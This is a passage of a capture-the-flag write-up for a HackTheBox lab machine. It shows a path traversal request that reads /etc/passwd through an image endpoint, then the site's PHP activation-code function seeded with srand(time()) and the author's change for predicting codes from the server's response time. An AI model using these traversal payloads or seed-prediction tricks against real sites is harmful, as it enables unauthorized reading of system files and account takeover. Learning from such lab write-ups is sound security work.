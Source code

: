 we got a error message when we wanted to access `/includes/img.php`

![image](/images/Pasted image 20230312210918.png)

it is missing the path parameter, so we provided one and tried to read local files.

```shell
https://broscience.htb/includes/img.php?path=../../../../etc/passwd
```

![image](/images/Pasted image 20230216210513.png)

we could read `etc/passwd` with path traversel with double url-encoding.

now we were able to read the content of all php files we found via dirbusting.

in the `register.php` we got a line where the activation code got generated. the function `genereate_activation_code` got included from `utils.php`.

*register.php*

```php
...
if (pg_num_rows($res) == 0) {
	// Create the account
    include_once 'includes/utils.php';
    $activation_code = generate_activation_code();
...
```

*utils.php*

the code gets build by a loop that iterates 32 times and with every iteration a random character gets choosen from the string `$chars`. 
the interesting part is `srand(time())`
the seed is taken from the current time the request is made.
to generate the exact same activation code we need to monitor our registration of a new account and grab the response time of the server. using this time as seed for our function should get us the correct code.

```php
<?php
function generate_activation_code() {
    $chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";
    srand(time());
    $activation_code = "";
    for ($i = 0; $i < 32; $i++) {
        $activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];
    }
    return $activation_code;
}

```

we changed `srand(time())` to:

```php
$response_time = strtotime("Sun, 12 Mar 2023 20:55:43 GMT");
srand($response_time);
```
